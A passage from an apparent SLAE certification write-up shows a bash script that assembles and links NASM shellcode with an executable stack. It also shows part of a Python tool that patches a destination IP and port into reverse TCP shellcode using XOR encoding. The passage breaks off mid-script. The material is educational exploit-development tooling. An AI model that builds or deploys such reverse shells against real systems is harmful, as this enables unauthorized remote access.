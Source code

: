 ## Executing the Code

To compile the NASM file with the bind TCP shell code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh reverse_tcp_shell

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

Now is necessary to parse the shellcode to adjust the IP and port number. 

The following Python parser will do the job, and the syntax for executing it is: ``python reverse_tcp_shell_shellcoder.py [BINARY_NAME] [DST_IP] [DST_PORT]``

````
#!/usr/bin/python

"""
 Filename:   reverse_tcp_shell_shellcoder.py
 Author:     Samuel Dugo
 SLAE-ID:    SLAE-1376
 Purpose:    Assignment #2 of SLAE certification. This code will configure the IP and Port for a reverse tcp shellcode.
"""

import binascii
import re
import socket
import subprocess
import sys

def getHexBinCode(code_to_insert, code_to_search, pattern_to_match):
    #Searches for a piece of shellcode to subsitute
    #and returns the shellcode modified
    code = ""
    m = re.match("^(.*?)"+pattern_to_match+"(.+)$",code_to_search)
    if m:
        code = m.group(1) + code_to_insert + m.group(2)
    return code

def getShellcode(bin_name,dest_ip,dest_port):
    #Gets initial shellcode
    objdump_command = "objdump -d ./"+bin_name+"|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\\t' ' '|sed 's/ $//g'|sed 's/ //g'|paste -d '' -s"
    process = subprocess.Popen(objdump_command, shell=True, stdout=subprocess.PIPE)
    hex_bin_code, err = process.communicate()
    #Substitute IP on shellcode
    ip_pattern_to_search = "7f000001"
    ip_xor_key = "FFFFFFFF"
    ip_hex = binascii.hexlify(socket.inet_aton(dest_ip))
    ip_xor_result = xorBinToHex(ip_hex,ip_xor_key)
    hex_bin_code = getHexBinCode(ip_xor_result, hex_bin_code, ip_pattern_to_search)
    #Substitue PORT on shellcode
    #Port number must be always 4 digits
    port_pattern_to_search = "22b8"
    port_xor_key = "FFFF"
````